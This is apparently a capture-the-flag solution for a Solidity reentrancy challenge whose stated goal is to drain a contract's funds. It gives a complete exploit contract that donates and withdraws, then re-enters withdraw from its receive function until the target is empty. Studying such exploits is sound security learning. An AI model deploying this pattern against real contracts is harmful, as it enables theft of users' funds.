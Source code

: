 # Answer

Goal: Steal all the funds from the contract.

## 1. Stealing

The contract is vulnerable to a reentrancy attack. The following contract exploits it by creating a call loop through the payable receive function.

```solidity
contract ReentranceExploit {
    Reentrance r;
    uint256 depositAmount;

    // Don't forget to fund the contract during deployment
    // The amount ideally should be equal to the target contracts
    constructor (address payable targetAddr) public payable {
        r = Reentrance(targetAddr);
        depositAmount = msg.value;
    }

    function exploit() external {
        r.donate{value: depositAmount}(address(this));
        r.withdraw(depositAmount);
    }

    receive() external payable {
        r.withdraw(address(r).balance < depositAmount ? address(r).balance : depositAmount);
    }
}
```

